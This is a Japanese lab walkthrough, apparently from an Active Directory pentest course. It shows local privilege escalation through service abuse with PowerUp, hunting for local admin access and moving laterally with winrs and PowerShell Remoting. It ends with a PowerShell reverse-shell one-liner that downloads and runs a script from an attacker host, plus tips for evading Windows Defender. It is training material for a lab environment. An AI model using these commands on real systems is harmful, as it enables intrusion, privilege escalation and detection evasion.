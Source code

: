## Topic
- サービスを悪用して、権限をローカル管理者へ昇格させる
- ドメイン内で自分のユーザがローカル管理者権限を持つマシンを特定する
- Webサーバ上で稼働しているJenkins上のユーザの権限を使用して、別のサーバの管理者権限を取得する。

---
## Tools
- [Invisi-shell](https://github.com/OmerYa/Invisi-Shell)
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)
- [Find-PSRemotingLocalAdminAccess.ps1](https://powersploit.readthedocs.io/en/latest/Recon/Find-LocalAdminAccess/)
- 
---
## 1. Local Privilege Escalation
PowerSploitモジュールのPowerupを使って権限昇格の経路をチェックすることができる。

---
### 手順
1. PowerUp.ps1の実行
Invoke-AllChecksコマンドは、システムの権限昇格の可能性を網羅的に列挙できる。
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
[snip]

PS C:\AD\Tools> . C:\AD\Tools\PowerUp.ps1
PS C:\AD\Tools> Invoke-AllChecks

[*] Running Invoke-AllChecks

[*] Checking if user is in a local group with administrative privileges...

[*] Checking for unquoted service paths...

ServiceName : AbyssWebServer
Path : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer;
IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AbyssWebServer' -Path
<HijackPath>
CanRestart : True

ServiceName : AbyssWebServer
Path : C:\WebServer\Abyss Web Server\abyssws.exe -service
ModifiablePath : @{ModifiablePath=C:\WebServer;
IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -Name 'AbyssWebServer' -Path
<HijackPath>
CanRestart : True

[snip]
[*] Checking service executable and argument permissions...
ServiceName : AbyssWebServer
Path : C:\WebServer\Abyss Web Server\abyssws.exe -
service
ModifiableFile : C:\WebServer\Abyss Web Server
ModifiableFilePermissions : {WriteOwner, Delete, WriteAttributes,
Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName : LocalSystem
AbuseFunction : Install-ServiceBinary -Name
'AbyssWebServer'
CanRestart : True
[snip]
[*] Checking service permissions...
ServiceName : AbyssWebServer
Path : C:\WebServer\Abyss Web Server\abyssws.exe -service
StartName : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'AbyssWebServer'
CanRestart : True
ServiceName : SNMPTRAP
Path : C:\Windows\System32\snmptrap.exe
StartName : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'SNMPTRAP'
CanRestart : True
```

---
2. 1の結果からInvoke-ServiceAbuseのabuse関数を使って、現在のドメインユーザをローカルのAdministratorsグループに追加する。
```
PS C:\AD\Tools> Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student' -Verbose

VERBOSE: Service 'AbyssWebServer' original path: 'C:\WebServer\Abyss Web
Server\abyssws.exe -service'
VERBOSE: Service 'AbyssWebServer' original state: 'Stopped'
VERBOSE: Executing command 'net localgroup Administrators dcorp\student1
/add'
VERBOSE: binPath for AbyssWebServer successfully set to 'net localgroup
Administrators dcorp\studentX /add'
VERBOSE: Restoring original path to service 'AbyssWebServer'
VERBOSE: binPath for AbyssWebServer successfully set to 'C:\WebServer\Abyss
Web Server\abyssws.exe -service'
VERBOSE: Leaving service 'AbyssWebServer' in stopped state
ServiceAbused Command
------------- -------
AbyssWebServer net localgroup Administrators dcorp\studentx /add
```
- 追加されたかを確認するコマンド
```
> net localgroup Administrators
```

- ログオンしなおせばローカル管理者権限が得られる。

---

## 2. Hunt for Local Admin access(ローカル管理者アクセスを探す)
現在のユーザでローカル管理者アクセスを持っているドメイン内のマシンを特定する。

---
### 手順
1. Find-PSRemoteingLocalAdminAccess.ps1を使用する。
Find-PSRemotingLocalAdminAccessを使用してリモートセッションの実行が許可されているコンピュータを列挙するためのコマンド。
```
C:\AD\Tools>C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[snip]
PS C:\AD\Tools> . C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
PS C:\AD\Tools> Find-PSRemotingLocalAdminAccess
dcorp-adminsrv
[snip]
```

---
2. 上記の結果から**dcorp-adminsrv**へアクセスできることがわかるので接続。
- winrsでの接続
```
C:\AD\Tools>winrs -r:dcorp-adminsrv cmd

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\studentx> set username
set username
USERNAME=studentx

C:\Users\studentx>set computername
computername
COMPUTERNAME=dcorp-adminsrv
```

- Powershell Remotingでの接続
```
PS C:\AD\Tools> Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

PS C:\AD\Tools>[dcorpadminsrv.dollarcorp.moneycorp.local]C:\Users\studentx\Documents>$env:username

dcorp\studentx
```
---
## 3. Webアプリケーションからの悪用
- リバースシェルを行うときに意識すること
	- Windows Defenderの回避
		- 検出を避けるために、Invoke-PowerShellTcpという関数名を変更している。
			- これはWindows Defenderが関数名などで検出する特性があるためである。

---
### Payload
- 場合によってはFireWallを無効化する必要あり。
```
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/InvokePowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443

or

powershell.exe iex (iwr -UseBasicParsing http://172.16.100.X/Invoke-PowerShellTcp.ps1);Power -Reverse -IPAddress 172.16.100.X -Port 443
```
- Wget的な動きをするのでAttack端末でWebサーバを立ち上げる必要がある。
	Linuxの場合はpythonのhttp.serverでよいが、Windowsの場合は**HFS.exe**を使用する。
	[HFS.exeリンク](https://softaro.jp/hfs-http-file-server/)
---